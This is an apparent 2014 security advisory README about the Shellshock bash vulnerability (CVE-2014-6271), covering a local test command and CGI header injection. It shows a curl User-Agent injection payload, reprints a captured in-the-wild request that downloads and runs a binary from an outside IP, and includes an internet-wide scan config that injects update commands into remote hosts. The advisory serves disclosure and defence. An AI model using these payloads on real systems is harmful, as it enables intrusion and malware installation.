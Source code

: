 CVE-2014-6271
===

For up-to-date information on this vulnerability as this situation evolves make sure to to give us a follow on twitter: [@CriticalStack](https://twitter.com/criticalstack).  

Come see [@Hectaman](https://twitter.com/hectaman) speak this Sunday September 28, 2014 at 4:00 pm at [Derbycon 2014](https://www.derbycon.com/schedule/)
)


[1. Overview](#overview)

[2. HTTP Header](#httpheader)

[3. #koopa_troopa](#koopa_troopa)

[4. With great power...](#power)

[5. Misc vulns, detections & scripts](#misc)

[6. Thanks](#thanks)

<a name="overview"></a>
##1. Overview
===

[CVE-2014-6271](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271) is a real nasty one; this vulnerability is in one of those pervasive pieces of software that comes with nearly every unixy type device- the [bash](http://tiswww.case.edu/php/chet/bash/bashtop.html), the Bourne-Again SHell.  Let's test to see if your servers|workstations|internet-of-things is vulnerable:

Open a shell and paste:
```
env x='() { :;}; echo vulnerable' bash -c 'echo hello'
```

If you are not vulnerable, then the following will be shown:
```
bash: warning: x: ignoring function definition attempt
bash: error importing function definition for `x'
hello
```
If you are vulnerable, then you will see:
```
vulnerable
hello
```

If you are vulnerable you should update your device immediately.  I have a feeling that this is the kind of exploit that is going to start cropping up in a large variety of cases and other protocols. I'll try to keep this updated to detect the various methods as the situation evolves.

<a name="httpheader"></a>
##2. HTTP Header Attack
===


First POC is out- attempting to attack bash based cgi scripts; [internet wide scans](http://blog.erratasec.com/2014/09/bash-shellshock-scan-of-internet.html) have been kicked off and I expect to see this genuinely weaponized before the evening is out. 

Let's explore what is happening a little further here; a vulnerable piece of code will look something like this:

```
#!/bin/bash

echo Content-type: text/html
echo ""

/bin/cat << EOM
<HTML>
<HEAD><TITLE>File Output: /home/user1/public_html/text-file.txt </TITLE>
</HEAD>
<BODY bgcolor="#cccccc" text="#000000">
<P>
<SMALL>
<PRE>
EOM

/bin/env

CAT << EOM
</PRE>
</SMALL>
<P>
</BODY>
</HTML>
EOM
```
[source](http://www.yolinux.com/TUTORIALS/LinuxTutorialCgiShellScript.html) 

This piece of code will output something like this:
```
<HTML>
<HEAD><TITLE>File Output: /home/user1/public_html/text-file.txt </TITLE>
</HEAD>
<BODY bgcolor="#cccccc" text="#000000">
<P>
<SMALL>
<PRE>
SERVER_SIGNATURE=
Apache/2.0.40 Server at localhost Port 80


UNIQUE_ID=DErk6n8AAAEAAAblFQEAAAAD
HTTP_USER_AGENT=Mozilla/4.8 [en] (X11; U; Linux 2.4.18-27.8.0 i586)
SERVER_PORT=80
HTTP_HOST=localhost
DOCUMENT_ROOT=/var/www/html
HTTP_ACCEPT_CHARSET=iso-8859-1,*,utf-8
SCRIPT_FILENAME=/var/www/cgi-bin/env.sh
REQUEST_URI=/cgi-bin/env.sh
SCRIPT_NAME=/cgi-bin/env.sh
HTTP_CONNECTION=Keep-Alive
REMOTE_PORT=32984
PATH=/sbin:/usr/sbin:/bin:/usr/bin:/usr/X11R6/bin
PWD=/var/www/cgi-bin
SERVER_ADMIN=root@localhost
HTTP_ACCEPT_LANGUAGE=en
HTTP_ACCEPT=image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, image/png, */*
REMOTE_ADDR=127.0.0.1
SHLVL=1
SERVER_NAME=localhost
SERVER_SOFTWARE=Apache/2.0.40 (Red Hat Linux)
QUERY_STRING=
SERVER_ADDR=127.0.0.1
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.0
HTTP_ACCEPT_ENCODING=gzip
REQUEST_METHOD=GET
_=/bin/env
</PRE>
</SMALL>
<P>
</BODY>
</HTML>
```

[mod_cgi](http://httpd.apache.org/docs/2.2/mod/mod_cgi.html) takes all of the HTTP header fields and passes them to the bash script as environment variables for execution.  And you know that the **remote** party, the *connection originator* controls all of the client headers...  Really this is as simple as just using curl:

```
curl -k -H 'User-Agent: () { :;}; /bin/ping -c1  XXX.XXX.XXX.XXX' http://127.0.0.1/cgi-bin/hi
``` 

And of course, you don't need to use a common field, such as the **user-agent**- any field will work!  So far we have not seen or been able to get a URL encoded version of this exploit to work- however, I expect to see significant "innovation" in this space.  More to come.


<a name="koopa_troopa"></a>
##3. #koopa_troopa aka #goomba (thanks [@mubix](https://twitter.com/mubix) )
===

So it didn't take long for the first of many exploits to break; earlier today this started circulating:

```
GET./.HTTP/1.0
.User-Agent:.Thanks-Rob
.Cookie:().{.:;.};.wget.-O./tmp/besh.http://162.253.66.76/nginx;.chmod.777./tmp/besh;./tmp/besh;
.Host:().{.:;.};.wget.-O./tmp/besh.http://162.253.66.76/nginx;.chmod.777./tmp/besh;./tmp/besh;
.Referer:().{.:;.};.wget.-O./tmp/besh.http://162.253.66.76/nginx;.chmod.777./tmp/besh;./tmp/besh;
.Accept:.*/*
 
$ file nginx 
nginx: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.18, stripped
 
$ md5sum nginx 
5924bcc045bb7039f55c6ce29234e29a  nginx
 
$ sha256sum nginx 
73b0d95541c84965fa42c3e257bb349957b3be626dec9d55efcc6ebcba6fa489  nginx
 
Looking at string variables, it appears to be a kernel exploit with a CnC component.
- found by @yinettesys
```

[Source](https://gist.github.com/anonymous/929d622f3b36b00c0be1)

Thanks to [@yinettesys](https://twitter.com/yinettesys) for sharing!


<a name="power"></a>
##4. With great power...
===


[Matt Kelley](https://twitter.com/breakersall) [jokes today](https://gist.github.com/anonymous/929d622f3b36b00c0be1) that he's that hoping someone man/womans up and becomes the Internet Fairy today:

```
#InfoSec good dead fairy
#Original from shellshock-scan (http://blog.erratasec.com/2014/09/bash-shellshock-scan-of-internet.html)
target = 0.0.0.0/0
port = 80
banners = true
http-user-agent = InfosecFairy
http-header = Cookie:() { :; }; apt-get update -y; apt-get upgrade -y; yum update bash -y
http-header = Host:() { :; }; apt-get update -y; apt-get upgrade -y; yum update bash -y
http-header = Referer:() { :; }; apt-get update -y; apt-get upgrade -y; yum update bash -y
```

[Source](https://gist.github.com/breakersall/9f5250f76295626d6e12)

Hilarious- you can follow [Matt Kelley](https://twitter.com/breakersall) on the twitters.

:)


<a name="misc"></a>
##5. Misc vulns, detections & scripts
===

   * [@detectify](https://twitter.com/detectify) posted a scanner looking for common CGI's (expect this list to grow exponentially) [Detectify](https://docs.google.com/document/d/1vN2QOG2OZIAHGXDmd5wB8FPi-Hin2GaIlWRJ0RYkTbA/preview?sle=true)



<a name="thanks"></a>
##6. Thanks
===

Thanks to [@hackerplaybook](https://twitter.com/hackerplaybook) for the help testing.  Give him (and Me- [@Hectaman](https://twitter.com/hectaman)) a follow!

Thanks to [Matt Kelley](https://twitter.com/breakersall) for the lulz.

Thanks to [@yinettesys](https://twitter.com/yinettesys) for being the first spotter!